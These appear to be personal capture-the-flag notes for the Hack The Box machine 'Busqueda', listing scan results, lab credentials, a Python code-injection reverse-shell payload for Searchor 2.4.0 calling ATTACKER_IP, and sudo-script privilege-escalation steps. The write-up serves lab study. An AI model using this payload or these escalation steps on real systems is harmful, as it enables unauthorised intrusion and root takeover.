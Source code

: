 # Busqueda

| Name      | IP           | Difficulty | OS    |
| ------ | ------------ | ---------- | ----- |
| busqueda | 10.10.11.208 | Easy       | Linux |

## NMAP

| HOST         | PORT | PROTO | SERVICE      | VERSION                 |
| ------------ | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.208 | 22   | tcp   | OpenSSH      | 8.9p1 Ubuntu 3ubuntu0.1 |
| 10.10.11.208 | 80   | tcp   | Apache httpd | 2.4.52                  |


## HEADERS

```
HTTP/1.1 302 Found
Date: Thu, 06 Jul 2023 16:52:28 GMT
Server: Apache/2.4.52 (Ubuntu)
Location: http://searcher.htb/
Content-Type: text/html; charset=iso-8859-1
```

## DIRECTORIES



## USERS

- cody
- svc : jh1usoih2bkjaspwe92 (machine user)
- administrator : yuiu1hoiu4i5ho1uh (gitea admin)



## NOTES

- Searchor 2.4.0
- `', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#`
- sudo -l `(root) /usr/bin/python3 /opt/scripts/system-checkup.py *`
- `full-checkup` returns error
- list all docker instances `sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps`
- inspect them revealing passwords `sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' instanceid`
- add `gitea.searcher.htb` to hosts login as administrator
- in `scripts/system-checkup.py` upon the `full-checkup` command it attempts to run a script `./full-checkup.sh` which does not exist
- create a reverse shell .sh script in `/tmp` and run `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` with a listener open
